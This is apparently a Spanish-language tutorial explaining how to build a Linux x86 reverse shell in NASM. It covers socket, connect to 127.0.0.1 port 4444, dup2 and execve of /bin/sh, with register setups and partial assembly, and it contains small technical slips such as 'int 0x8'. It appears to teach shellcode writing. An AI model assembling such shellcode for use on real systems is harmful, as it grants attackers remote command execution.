

Una pequeña explicación de como realizar una shell para linux_x86.
Veamos unos conceptos básicos, está explicación es realizado en nasm, esta forma no es única, hay varias formas, todo depende de tu imaginación y de como te atrevas a programarlo.
Explicaré una forma básicas de una shell pequeña, lo demás es bajo tu creatividad y responsabilidad.
Algo que debes tener en cuenta para poder realizarlo, es saber manejar registros en ASM y sus ejecuciones, dejo un link a una página donde puedes aprender más.
Architecture/x86-assembly| Registros |
|||||
| 64 bit |
32 bit |
Explicación |
|||
| 64 bit |
rax, rbx, rcx, rdx, rsi, rdi |
--- |
Los registros a utilizar son rdi, rsi, rdx, r8 - r10, etc. |
||
| 32 bit |
--- |
eax, ebx, ecx, edx, esi, edi |
Los registros a utilizar son ebx, edx, ecx, edx, esi, edi, etc. |
||
| Memoria | Bits | Bytes | Registro | Access-Memory | Allocate-Memory |
| char | 8 | 1 | al | BYTE [ptr] | db |
| short | 16 | 2 | ax | WORD [ptr] | dw |
| int | 32 | 4 | eax | DWORD [ptr] | dd |
| long | 64 | 8 | rax | QWORD [ptr] | dq |
Para compilar: nasm -felf32 .nasm
ld -m elf_i386 .o -o
Primero que todo tenemos que avisarle al sistema que vamos a usar un socket, así que hay que hace un invocación para poder iniciar.
Antes que nada, es bueno que busques esta información en el código fuente de linux, por lo general se encuentran en:
/usr/include/asm/unistd_32.h
/usr/include/linux/net.h
Vamos a necesitar varios.
#define __NR_socketcall 102
#define SYS_CONNECT 3
#define __NR_dup2 63
#define __NR_execve 11
#define SYS_SOCKET 1
Los syscall en linux son int 0x8
Así que debemos poner mov al, 102 , ¿porqué?, porque los call buscan a eax para saber que van a realizar y los parametros se encuentran en los siguientes registros (ebx, ecx, edx, etc) .
En seguida debemos usar esta funcion basandonos en los siguientes parametro.
int socket(int domain, int type, int protocol)Tipo de datos
| Domain | Type | Protocol |
| AF_INET | | SOCK_STREAM | | IPPROTO_IP |
| 2 | | 1 | | 0 |
Con eso podemos saber que es lo que necesitamos, solo hay que meter en cada registro el dato necesario.
Pero antes debemos saber como meter todos esos datos. La mejor opción es meter todo a la pila, para eso sirven los push.
xor, hace una comparación tipo not, por ejemplo, si fuera eax=1, con xor podemos decir: eax=1 not eax=1; resultado = 0
inc, incrementa +1 un registro, por ejemplo, si fuera eax=1, entonces, inc eax, sería ahora eax = 2
pop, saca de la pila el ultimo registro guardado, por ejemplo, push 0x1; push 0x2; entonces, pop eax, sería ahora eax = 2, pop eax, entonces ahora eax = 1
xor esi, esi
inc esi = 1
push esi
pop ebx = 0x1
(socket)
xor esi, esi
push esi = 0x0
inc esi = 0x1
push esi
inc esi = 0x2
push esi
(2,1,0)
mov ecx, esp
Opcional
Puede colocar a edx en null, para no permitir una interrupción
xor edx, edx
¿Cómo quedaría entonces?
eax = socketcall
ebx = 1, SYS_SOCKET
ecx = (2,1,0), (AF_INET, SOCK_STREAM, IPPROTO_TCP)
edx = 0
int 0x80

Repetimos lo mismo ahora para darle indicaciones a connect
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
La respuesta del sistema siempre se guarda en eax, así que solo habrá que hacer un cambio con xchg, para no complicarnos la vida lo hacemos directamente con el registro que lo usará posteriormente, edx.
xchg edx, eax
Repetimos la mismo que arriba segun la estructura sockaddr_in.
;struct sockaddr_in {
; __kernel_sa_family_t sin_family; /* Address family */
; __be16 sin_port; /* Port number */
; struct in_addr sin_addr; /* Internet address */
;};
Veamos como quedaría.
push 0x0100007f = 127.0.0.1
push word 0x5c11 = 4444
push word 0x2 = AF_INET
Guardamos eso en el registro que se va a usar posteriormente y volvemos a repetir.
mov ecx, esp = sockaddr_in
push 0x10 = (size of struct)
push ecx = sockaddr_in
push edx = socket
Una vez más, pero ya para definir a connect.
eax, 102 = syscall
mov bl, 0x3 = connect
mov ecx, esp = toda la estructira de arriba
Ya tenemos lista la conexión, pero falta como crear una tubería para mandar y recibir datos. Para eso usaremos dup2(2).
int dup2(int oldfd, int newfd);
stdin(0)
stdout(1)
stderr(2)
Esta parte ya es más sencillo, así que se que pueden resolverlo.
Veamos que se debe hacer.
Tienes que invocar a dup2 en eax, ecx se usa para loops o ciclos de repetición y edx tiene el socket.
Para hacer ciclos de repetición, tienes que hacer uso de jumps (jne, jz)
Por ejemplo:
mov ecx, 0x3
salto:
dec ecx
jnz salto
Si ya entendieron el concepto, esto es muy sencillo.
Ahora hay que repetir la formula de arriba para usar /bin/bash.
En realidad es "/bin/sh0"... es muy importante el null al final, para que el sistema entienda que ahí termina la cadena de caracteres y se detenga.
Recuerda que se debe poner al reves por el sistema "Endianness"
Te coloco un link con la explicación detallada sobre eso.
Endiannes"hs//nib/" <--- Encuentra los hexadecimales.
El proceso es el mismo, coloca en eax, execv, después pushea "/bin/bash", colocale un null al final.
Parece difícil pero en realidad no lo es, observa.
int execve(const char *filename, char *const argv[],char *const envp[]);
eax = execv
ebx = filename,0
ecx = argv <-- 0
edx = envp <-- 0
Listo.
Si deseas el código completo puede apoyarme en patreon, ahí encontraras el código y más. Patreon
En github se encuentra parte del código como referencia. Github